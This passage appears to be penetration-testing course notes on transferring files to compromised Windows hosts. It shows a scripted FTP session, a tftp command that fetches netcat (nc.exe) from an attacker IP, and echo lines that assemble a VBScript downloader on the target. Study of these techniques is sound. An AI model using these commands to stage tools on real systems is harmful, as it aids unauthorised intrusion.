 4. Initiate FTP session using the _ftp.txt_ command list that'll allow for a non-interactive session (**-s**)  
```bash
ftp -v -n -s:ftp.txt
```
:
	- **-v** - Suppress any returned output *NOTE: may cause _Unknown command_ errors w/ **open**. Removing will work.  
	- **-n** - Suppresses automatic login  
	- **-s** - Indicates name of command file  
  
OR, literally just use those commands in the txt file ^.  
  
THAT being said, if the **tftp** service is available on Win:  
```powershell
tftp -i <attack_ip> GET nc.exe
```
	-- should work  
  
  
Issues: [https://ubuntuforums.org/archive/index.php/t-2124610.html](https://ubuntuforums.org/archive/index.php/t-2124610.html)  



### Scripting Languages:

Leverage scripting engines such as:  
- VBScript[1](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/file-transfers/transferring-files-with-windows-hosts/windows-downloads-using-scripting-languages#fn1) (inWindows XP, 2003)  
- PowerShell (in Windows 7, 2008, and above)  
  
  
Ex **wget.vbs.txt**:  
```vb
echo strUrl = WScript.Arguments.Item(0) > wget.vbs  
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs  
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs  
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs  
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs  
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs  
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs  
echo  Err.Clear >> wget.vbs  
echo  Set http = Nothing >> wget.vbs  
echo  Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs  
echo  If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs  
echo  If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs  
echo  If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs  
echo  http.Open "GET", strURL, False >> wget.vbs  
echo  http.Send >> wget.vbs  
echo  varByteArray = http.ResponseBody >> wget.vbs  
echo  Set http = Nothing >> wget.vbs  
echo  Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs  
echo  Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs  
echo  strData = "" >> wget.vbs  
echo  strBuffer = "" >> wget.vbs  
echo  For lngCounter = 0 to UBound(varByteArray) >> wget.vbs  
echo  ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs  
echo  Next >> wget.vbs  
echo  ts.Close >> wget.vbs
```
